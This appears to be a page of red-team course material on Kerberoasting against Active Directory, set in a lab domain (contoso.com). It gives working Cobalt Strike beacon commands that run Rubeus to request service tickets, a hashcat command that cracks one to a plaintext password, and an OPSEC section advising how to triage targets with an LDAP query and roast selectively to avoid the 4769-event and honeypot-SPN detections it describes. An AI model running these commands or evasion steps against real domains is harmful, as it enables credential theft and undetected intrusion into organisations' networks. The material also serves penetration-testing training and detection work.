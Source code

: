 ### Kerberoasting <a href="#el_1736795793731_1520" id="el_1736795793731_1520"></a>

Kerberoasting is a technique \[[T1558.003](https://attack.mitre.org/techniques/T1558/003/)] for obtaining the plaintext password of the service account associated with an SPN.  An adversary can send TGS-REQs for one or more SPNs and get TGS-REPs in return.  These contain valid service tickets that are partially encrypted using the service's secret.  These encrypted parts can be carved out and brute-forced office to recover the service accounts plaintext password.

This attack isn't viable against services that run in the context of a computer account because these passwords are automatically set (128-characters long), and rotated by Active Directory every 30 days.  It relies on domain accounts that have been setup by humans, have weak passwords, and maybe even configured to never expire.

Rubeus' `kerberoast` command will enumerate and roast every non-default service.

```batch
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /format:hashcat /simple

[*] Total kerberoastable users : 1

$krb5tgs$23$*mssql_svc$contoso.com$MSSQLSvc/lon-sql-1.contoso.com:1433@contoso.com*$95505[...snip...]9A715
```

These hashes can be cracked using hashcat's 13100 hash mode.

```
PS C:\Tools\hashcat> .\hashcat.exe -a 0 -m 13100 .\kerb.hash .\example.dict -r .\rules\dive.rule
$krb5tgs$23$*mssql_svc$contoso.com$MSSQLSvc/lon-sql-1.contoso.com:1433@contoso.com*$95505[...snip...]9a715:Passw0rd!
```

#### OPSEC <a href="#el_1736796585600_1746" id="el_1736796585600_1746"></a>

Each TGS-REP generates a 4769 event, so a single user requesting multiple tickets in a short timeframe should be investigated.  As with AS-REP Roasting, Rubeus requests service tickets using RC4 encryption by default.

Another effective strategy is to create one or more dummy SPNs that are not backed by a legitimate service, in which case, a TGS-REQ/REP should never be generated for them.  Since most tools automatically enumerate and roast every account in a domain with an SPN set, a careless adversary can trigger this high-fidelity alert.

A safer approach is to use an enumeration tool to triage potential targets first, then roast them more selectively.

```batch
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe -s "(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))" --attributes cn,samaccountname,serviceprincipalname
            
[*] LDAP://DC=contoso,DC=com
[*] CUSTOM SEARCH: 
[*] TOTAL NUMBER OF SEARCH RESULTS: 1
	[+] cn                   : MSSQL Service
	[+] samaccountname       : mssql_svc
	[+] serviceprincipalname : MSSQLSvc/lon-sql-1.contoso.com:1433

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /spn:MSSQLSvc/lon-sql-1.contoso.com:1433 /simple /nowrap
```
